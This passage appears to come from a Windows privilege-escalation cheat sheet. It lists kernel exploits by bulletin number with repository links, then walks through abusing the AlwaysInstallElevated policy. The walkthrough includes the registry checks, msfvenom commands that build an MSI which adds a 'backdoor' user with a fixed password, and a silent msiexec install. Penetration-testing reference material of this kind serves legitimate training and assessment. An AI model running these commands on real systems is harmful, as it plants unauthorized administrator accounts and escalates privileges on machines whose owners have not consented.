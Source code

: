 * [MS16-111](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-111) 　\[KB3186973]　　\[kernel api]　　(Windows 10 10586 (32/64)/8.1)
* [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) 　\[KB3178466]　　\[Kernel Driver]　　(Win 8.1)
* [MS16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075) 　\[KB3164038]　　\[Hot Potato]　　(2003/2008/7/8/2012)
* [MS16-034](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034) 　\[KB3143145]　　\[Kernel Driver]　　(2008/7/8/10/2012)
* [MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032) 　\[KB3143141]　　\[Secondary Logon Handle]　　(2008/7/8/10/2012)
* [MS16-016](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-016) 　\[KB3136041]　　\[WebDAV]　　(2008/Vista/7)
* [MS16-014](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-014) 　\[K3134228]　　\[remote code execution]　　(2008/Vista/7)\
  ...
* [MS03-026](https://www.exploit-db.com/exploits/66) 　\[KB823980]　　 \[Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)

To cross compile a program from Kali, use the following command.

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

### EoP - Microsoft Windows Installer

#### AlwaysInstallElevated

Using the `reg query` command, you can check the status of the `AlwaysInstallElevated` registry key for both the user and the machine. If both queries return a value of `0x1`, then `AlwaysInstallElevated` is enabled for both user and machine, indicating the system is vulnerable.

*   Shell command

    ```powershell
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
*   PowerShell command

    ```powershell
    Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
    Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
    ```

Then create an MSI package and install it.

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in :

* Metasploit : `exploit/windows/local/always_install_elevated`
* PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`
